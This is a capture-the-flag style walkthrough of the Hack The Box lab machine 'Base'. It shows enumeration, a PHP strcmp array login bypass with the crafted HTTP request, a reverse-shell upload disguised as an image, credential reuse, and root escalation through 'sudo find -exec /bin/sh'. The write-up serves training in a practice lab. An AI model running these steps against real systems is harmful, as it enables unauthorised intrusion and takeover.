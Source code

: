 ```yaml
---
title: Base - A HackTheBox machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
---
```


# Base - A Hack The Box machine

Enumerate open ports and services.

```bash
nmap -sC -sV $ip -Pn
```

Ports 22 and 80 are open.

Add base.htb to /etc/hosts.

Enumerate directories:

```bash
gobuster dir -u http://base.htb/login -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/big.txt
```

Some file and folders uncovered:

```
- http://base.htb/_uploaded/
- http://base.htb/login/
- http://base.htb/login/login.php
- http://base.htb/forms/
- http://base.htb/assets/
- http://base.htb/logout.php
```

Under  /login there are three files: login.php, config.php and login.php.swp. There are two ways of reading the swap file, with strings and with vim:


```bash
vim -r login.php.swp
# -r  -- list swap files and exit or recover from a swap file

```

Content:

```
<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
```


Quoting from the article [PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09): "When comparing values, always try to use the type-safe comparison operator “===” instead of the loose comparison operator “==”. This will ensure that PHP does not type juggle and the operation will only return True if the types of the two variables also match. This means that (7 === “7”) will return False."

My notes about [php type jugling](php-type-juggling-vulnerabilities.md). 



In the HackTheBox machine Base, login form was bypasseable by entering an empty array into the username and password parameters:

```
Original request


POST /login/login.php HTTP/1.1
Host: base.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://base.htb
Connection: close
Referer: http://base.htb/login/login.php
Cookie: PHPSESSID=sh4obp53otv54vtsj0g6tev1tt
Upgrade-Insecure-Requests: 1

username=admin&password=admin

```


```
Crafted request:

POST /login/login.php HTTP/1.1
Host: base.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://base.htb
Connection: close
Referer: http://base.htb/login/login.php
Cookie: PHPSESSID=sh4obp53otv54vtsj0g6tev1tt
Upgrade-Insecure-Requests: 1

username[]=admin&password[]=admin
```

How to know? By spotting the file login.php.swp in the /login exposed directory and reading its contents.

After sending request with BurpSuite, grab the PHPsession cookie and in your browser enter that cookie and go to: http://base.htb/upload.php. Now you can upload our [pentesmonkey shell](pentesmonkey.md) using BurpSuite Repeater (important note: change header to "Content-Type: image/png", file extension may remain php). Have your netcat listener ready.


```bash
whoami
```

```
www-data
```

Credentials can be found at /var/www/html/login/config.php. Use them to login as the existing user at /home

```bash
su john
# enter password: thisisagoodpassword
```

Once you are john, you have access to user.txt. Also, to be root:

```bash
id
sudo -l
```

```
ohn@base:~$ sudo -l
sudo -l
[sudo] password for john: thisisagoodpassword

Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
```


See [cheat sheet about suid binaries](suid-binaries.md) and:

```bash
sudo find . -exec /bin/sh \; -quit
```

Now you are root and can echo /root/root.txt
